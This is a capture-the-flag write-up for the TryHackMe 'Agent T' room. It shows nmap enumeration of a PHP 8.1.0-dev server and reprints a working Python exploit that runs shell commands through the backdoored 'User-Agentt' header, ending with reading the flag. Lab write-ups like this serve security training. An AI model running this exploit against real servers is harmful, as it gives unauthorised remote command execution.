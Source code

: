 # Agent_T
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Agent T uncovered this website, which looks innocent enough, but something seems off about how the server responds...

Tags
--
* PHP 8.1.0-dev
* User-Agent
* RCE

Tools used
--
* nmap

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.8.16.123

Victim:
* Name: victim_machine
* IP Address: 10.10.180.39
* Other information must be gathered during the attack

Phase 1: Enumeration
--
```
sudo nmap -sS -sC -sV 10.10.180.39 -p- -T5 -vvv

<SNIP>
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 62 PHP cli server 5.5 or later (PHP 8.1.0-dev)
<SNIP>
```
By searching on Internet for `PHP 8.1.0-dev` vulnerability, we can found the following script:
```python
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```
Source: https://www.exploit-db.com/exploits/49933

By running it and giving `http://10.10.180.39`as input, we get the shell and get the flag by `cat /flag.txt`.
